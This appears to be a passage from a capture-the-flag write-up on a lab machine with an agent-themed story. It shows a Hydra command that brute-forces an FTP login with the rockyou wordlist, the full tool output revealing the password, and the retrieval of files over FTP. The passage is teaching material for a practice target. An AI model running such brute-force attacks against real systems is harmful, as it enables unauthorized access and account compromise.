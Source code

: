 A...B..C..is easy its like counting up to 3...sing a single melody...

I giggled on agent P too

only C and R have different content-lenght..and we cannot be R so...yeah

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

There is always a chris in your team...he always do that

seems like the bruteforce is strong in here

We brutefore the ftp password with hydra

```
$hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.185.167 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-04 17:21:40
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.185.167:21/
[21][ftp] host: 10.10.185.167 login: chris password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 9 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-04 17:22:58
```

chris : crystal

Next we grab all the stuff

`ftp> mget \*`

we got `To_agentJ.txt`

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
